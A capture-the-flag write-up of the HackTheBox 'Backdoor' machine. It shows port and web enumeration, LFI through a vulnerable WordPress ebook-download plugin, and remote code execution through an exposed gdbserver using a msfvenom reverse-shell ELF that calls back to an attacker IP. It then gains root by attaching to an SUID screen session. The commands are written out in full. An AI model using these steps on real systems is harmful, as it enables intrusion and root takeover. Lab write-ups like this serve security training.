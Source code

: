 ## Default Information
IP Address: 10.129.106.84\
OS: Linux

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.129.106.84    backdoor.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo masscan -p1-65535,U:1-65535 10.129.106.84 --rate=1000 -e tun0
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-11-22 12:44:12 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.129.106.84                                   
Discovered open port 1337/tcp on 10.129.106.84                                 
Discovered open port 80/tcp on 10.129.106.84 
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port. From the output, we realize that there is a weird port 1337 with a ```waste?``` service. This might be a port running an internal service, so we would have to find out what is being executed on port 1337

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | Open |
| 80 | HTTP | Apache/2.4.41 (Ubuntu) | Open |
| 1337	| waste? | NIL | Open |

### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http:/backdoor.htb

```
http://10.129.106.84:80/index.php            (Status: 301) [Size: 0] [--> http://10.129.106.84:80/]
http://10.129.106.84:80/license.txt          (Status: 200) [Size: 19915]
http://10.129.106.84:80/readme.html          (Status: 200) [Size: 7346]
http://10.129.106.84:80/wp-content           (Status: 301) [Size: 319] [--> http://10.129.106.84/wp-content/]
http://10.129.106.84:80/wp-admin             (Status: 301) [Size: 317] [--> http://10.129.106.84/wp-admin/]
http://10.129.106.84:80/wp-config.php        (Status: 200) [Size: 0]
http://10.129.106.84:80/wp-includes          (Status: 301) [Size: 320] [--> http://10.129.106.84/wp-includes/]
http://10.129.106.84:80/wp-trackback.php     (Status: 200) [Size: 135]
http://10.129.106.84:80/wp-login.php         (Status: 200) [Size: 5758]
http://10.129.106.84:80/xmlrpc.php           (Status: 405) [Size: 42]
http://10.129.106.84:80/wp-links-opml.php    (Status: 200) [Size: 223]
```

### Web-content discovery
Knowing that this is a wordpress site, we will navigate to http://backdoor.htb/wp-content/plugins to look for vulnerable plugins that we could exploit. From the site, we that there is an ebook-download plugin.

![Wordpress plugins](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/wp_plugin.png)

Viewing the files in the ebook-download directory, we discover a readme.txt which tells us that the version of ebook-download used is 1.1. From [exploit-db](https://www.exploit-db.com/exploits/39575), we can see that this plugin is vulnerable to directory traversal.

This vulnerability can be furthur exploited to become a LFI by using /etc/passwd as a payload

![LFI](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/lfi.png)

Recalling that we found that we have a port 1337 of unknown service that we have found from our nmap scan. Using this information, we will bruteforce /proc/*/cmdline using intruder ion Burp Suite to check if we can find any background processes that are running on port 1337.

On PID 957, we can see that gdb server is being executed on the localhost of port 1337

![GDB Server](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/gdb_server.png)

## Exploit
### Exploiting gdbserver
With some research from [here](https://security.tencent.com/index.php/blog/msg/137), we know that we are able to obtain an RCE using gdbserver. However, we would need to know 2 pieces of information before we carry out the rce:
- Architecture of the server (i.e. whether this is an x86 or x64)
- Operating System of the server (i.e. Linux/BSD/Windows)
- Low-privilege user on the server

The low-privilege user is revealed to be ```user```, which was shown when we use the LFI to read the /etc/passwd file

![Finding the low-privileged user](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/user.png)

To find the operating system of the server, we will make use of LFI again to read the /proc/version file. From the output, we can see that this server is running on Linux. Apart from that, we can also find the architecture of this server. In the output, we can see that this server build is on ```amd64``` which tells us that that the server is running on a 64-bit CPU.

![Operating System](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/operating_system.png)

Another way to find the architecture of the serveris to make use of the LFI again to read the /proc/cpuinfo file and check the flags. From the flags, we can find a ```lm``` flag which means that this is running on a 64-bit CPU.

![CPU Info file](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/cpu_info.png)

Next, we will move on to generate a reverse shell elf using msfvenom

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=443 -f elf -o rev.elf
```

Lastly, we will exploit gdbserver to obtain our rce. This is done by first connecting to the gdb server on 10.129.106.84:1337. Afterwards, we will put the rev.elf generated earlier onto our /home/user directory. Lastly, we will then execute the rev.elf to obtain the reverse shell.

```
target extend-remote 10.129.106.84:1337
cd /home/kali/rev.elf
remote put rev.elf rev.elf
set remote-exec rev.elf /home/user/rev.elf
run
```
### Obtaining user flag
All that we have to do now is to spawn a bash shell and obtain the user flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.106.84] 58160
python3 -c 'import pty; pty.spawn("/bin/bash")'
user@Backdoor:/home/user$ cat user.txt
cat user.txt
<Redacted user flag>
```
### Exploiting screen

Using LinEnum privilege escalation, we realized that /usr/bin/screen is set with an SUID bit

```
[-] SUID files:
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 May 26 11:50 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 473576 Jul 23 12:55 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 68208 Jul 14 22:08 /usr/bin/passwd
-rwsr-xr-x 1 root root 85064 Jul 14 22:08 /usr/bin/chfn
-rwsr-xr-x 1 root root 88464 Jul 14 22:08 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 44784 Jul 14 22:08 /usr/bin/newgrp
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
-rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 53040 Jul 14 22:08 /usr/bin/chsh
-rwsr-xr-x 1 root root 31032 May 26 11:50 /usr/bin/pkexec
```

Since we know that ```screen``` has an SUID bit, we can exploit it to get a root shell. To do this, we will use the ```-x``` flag to a attach non-detached screen session. However, we will add a ```root/root``` to specify that we are going to use the screen session with root privileges.

```
user@Backdoor:/home/user$ screen -x root/root
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root) 
```

### Obtaining root flag

```
root@Backdoor:~# cat root.txt
cat root.txt
<Redacted root flag>
root@Backdoor:~#
```
